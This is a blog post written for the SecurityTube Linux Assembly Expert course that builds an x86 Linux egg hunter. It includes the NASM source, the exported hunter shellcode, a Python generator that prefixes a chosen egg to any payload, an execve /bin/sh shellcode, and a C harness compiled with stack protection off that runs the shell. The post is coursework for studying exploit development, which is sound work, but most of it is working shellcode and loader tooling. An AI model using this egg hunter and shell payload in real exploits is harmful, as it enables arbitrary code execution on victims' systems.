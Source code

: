 ```yaml
---
layout: post
title: "SLAE Assignment #3 | Egg Hunter"
date: 2018-01-26
comments: true
categories:
---
```


Assignment #3 in the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) exam is to create an egg hunter with configurable payload.

References:
* [http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)

In the paper above the following technique is shown and implemented in different ways:

```
egg = 0x1337

for page in memory:
  if access(page) == valid:
    for address in page:
      if memory[address] == egg and 
         memory[address+4] == egg:
         jmp memory+8
```

So how do we do this?

System call [int access(const char *pathname, int mode);](http://man7.org/linux/man-pages/man2/access.2.html) will be used.

* System call number is `0x21`
* pathname will be the beginning of the page-aligned address, according to the paper the page size used is 4096, so by doing the operation `(address OR 0xfff + 1)` we can align with the next page.
* mode will be the file rights we want to use, we want at least write and execute, which is `0x5` (had to compile a program and run `printf("%x", R_OK|X_OK)` to check), in the end it was fine to pass `0` as argument.
* Return value is `0` if the address is valid, and `0xf2` if EFAULT.

With this I feel ready to write the code.

After quite a lot of trial and error I came up with the following code:

```
section .text
  global _start

_start:
  xor ebx, ebx
  xor ecx, ecx

next_page:
  or dx, 0xFFF

next_address:
  inc edx

  ;access call
  ;mov cl, 0x5, seems to work okay keeping it as null 
  lea ebx, [edx+4] ; using +4 which ensures check of ebx - ebx +8 to be valid
  push 0x21
  pop eax
  int 0x80
  cmp al, 0xf2
  je next_page

  mov eax, 0x11223344
  mov edi, edx
  scasd
  jne next_address
  scasd
  jne next_address

  jmp edi
```

I exported the hunter shellcode:
```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-3$ ../tools/compile.sh egg-hunter && ../tools/format_shellcode.py egg-hunter
Done
Python style shellcode:
"\x31\xdb\x31\xc9\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x44\x33\x22\x11\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
```

Then I implemented the script that makes it possible to use custom payloads and configure egg-values:

```python
#!/usr/bin/python

original_hunter ="\\x31\\xdb\\x31\\xc9\\x66\\x81\\xca\\xff\\x0f\\x42" + \
                "\\x8d\\x5a\\x04\\x6a\\x21\\x58\\xcd\\x80\\x3c\\xf2" + \
                "\\x74\\xee\\xb8\\x44\\x33\\x22\\x11\\x89\\xd7\\xaf" + \
                "\\x75\\xe9\\xaf\\x75\\xe6\\xff\\xe7"

egg = raw_input("egg value (4 bytes):")[::-1]

if len(egg)!=4:
  print "Invalid egg length"
egg = "\\x" + "\\x".join("{:02x}".format(ord(c)) for c in egg)

hunter_shellcode = original_hunter.replace("\\x44\\x33\\x22\\x11", egg)

shellcode = raw_input("shellcode:")
prepped_shellcode = egg+egg+shellcode

print "Hunter:\n" + hunter_shellcode


print "Shellcode:\n"+prepped_shellcode
```

Using it by providing egg value and shellcode(in this case exec bin sh):

```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-3$ python egg_generator.py 
egg value (4 bytes):1234
shellcode:\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x2f\x2f\x2f\x2f\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
Hunter:
\x31\xdb\x31\xc9\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x34\x33\x32\x31\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7
Shellcode:
\x34\x33\x32\x31\x34\x33\x32\x31\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x2f\x2f\x2f\x2f\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

I then verified that it works in the following C-program:

```
#include <unistd.h>
#include <stdio.h>

unsigned char hunter [] = \
"\x31\xdb\x31\xc9\x66\x81\xca\xff\x0f\x42\x8d\x5a"
"\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x34"
"\x33\x32\x31\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
unsigned char egg [] = \
"\x34\x33\x32\x31\x34\x33\x32\x31\x31\xc0\x50\x68"
"\x62\x61\x73\x68\x68\x2f\x2f\x2f\x2f\x68\x2f\x62"
"\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {
  printf("Shellcode Length: %d\n", strlen(hunter));
  int (*ret)() = (int(*)())hunter;
  ret();
}
```

Compiling and running:

```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-3$ gcc test.c -o test  -fno-stack-protector -z execstack -no-pie --std=c99
...some compiler warnings...
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-3$ ./test
Shellcode Length: 37
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-3$ 
```

Quite fun assignment with lots of debugging.


---

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE - 569

